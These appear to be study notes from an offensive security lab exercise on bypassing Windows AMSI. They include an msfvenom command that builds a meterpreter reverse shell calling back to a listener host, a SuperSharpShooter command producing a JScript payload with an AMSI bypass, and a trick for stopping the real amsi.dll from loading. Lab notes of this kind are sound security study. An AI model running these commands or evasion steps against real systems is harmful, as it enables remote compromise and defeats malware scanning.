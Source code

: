![First hit of AmsiScanBuffer in Windbg](Images/WscriptJsAmsiScanBufferHit.png)
- look at the next 20 instructions `u rip L20`

![Next 20 Instructions](Images/WindbgAmsiScanBufferNext20Instructions.png)


### Exercise 7.6.2.3

- Experiment with SharpShooter to generate the same type of payload with an AMSI bypass.

- Generate raw shell code
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.210 LPORT=9001 EXITFUNCTION=thread -f raw -o offsec-shell.txt
```

```bash
./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile offsec-shell.txt --payload js --output ch07-offsec-test --amsi amsienable


             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Shar'+'p'+'S'+'h'+'oot'+'er';
[*] Written delivery payload to output/ch07-offsec-test.js

```
- upload and run

#### TODO: Notes to attempt build Generic Jscript AMSI Bypass

- Win11 CLSID for jscript.dll is different than in Win10 `Computer\HKEY_CLASSES_ROOT\CLSID\{cc5bbec3-db4a-4bed-828d-08d78ee3e1ed}\InprocServer32`
- Newer Win10 builds don't query the AMSI bypass registry setting
	- amsi.dll is called for analysis


#### Preventing AMSI from loading or load another version

- Using Windbg can show that amsi.dll is loaded from System32 using LoadLibraryExW where `R8` is set to `0x800` which is the enum `LOAD_LIBRARY_SEARCH_SYSTEM32`.
- If the system sees another amsi.dll is loaded, the real amsi.dll will fail to load
- Copy wscript.exe to amsi.dll outside of C:\\Windows\\System32 and then use the WScript `Exec` method which is a wrapper for `CreateProcess` Win32 API. `CreateProcess` ignores the file extension and parses the file header to determine if the object called can run.
